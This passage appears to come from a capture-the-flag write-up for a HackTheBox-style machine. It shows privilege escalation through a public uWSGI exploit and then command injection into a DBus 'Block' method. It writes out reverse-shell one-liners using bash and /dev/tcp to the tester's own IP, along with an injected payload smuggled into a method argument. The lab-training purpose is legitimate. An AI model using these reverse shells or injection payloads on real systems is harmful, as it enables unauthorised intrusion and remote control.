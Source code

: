 > NOTE: Switch directory to _/usr/lib/python3/dist-packages/_ to be able to import dbus

It shows and error that access is denied, so the _www-data_ user is needed to abuse **Dbus**:
```
(...)
dbus.exceptions.DBusException: org.freedesktop.DBus.Error.AccessDenied: Rejected send message
```

### Privilege Escalation to www-data

In the _/code_ directory is a file called _uwsgi.ini_ which means that [uWSGI](https://uwsgi-docs.readthedocs.io/en/latest/) is used as a Gateway Interface so the Python applications use it to send data to the web server which is **nginx** in this case.
The configuration for this can be found in the _/etc/nginx/nginx.conf_ file.

There is public [exploit code on GitHub for uWSGI](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py) that can be tried out.
Pasting the source code into a file:
```
cat <<EOF > uwsgi_exp.py
```

Executing the exploit:
```
python uwsgi_exp.py -m unix -u /tmp/uwsgi.socket -c 'bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"'
```

> NOTE: The exploit wants to import the _bytes_ module, so the lines where it is imported should be removed:

```
sed '/import b/d' uwsgi_exp.py -i
```

After sending the command, the listener on my IP and port 9001 starts a reverse shell sessions as _www-data_ on the **Flask container**.

#### Exploiting DBus with www-data

Running the commands again to get command execution with **Dbus**:
```
>>> import dbus
>>> bus = dbus.SystemBus()
>>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
>>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

>>> runme = '; ping -c 1 10.10.14.11 #'
>>> response = block_iface.Block(runme)
```

It works and my `tcpdump` listener gets a response back and command execution is proofed.
Lets execute a reverse shell command:
```
>>> runme = "; bash -c 'bash -i >& /dev/tcp/10.10.14.11/9002 0>&1 #'"
>>> response = block_iface.Block(runme)
```

After sending the command, the listener on my IP and port 9002 stars a reverse shell as root!
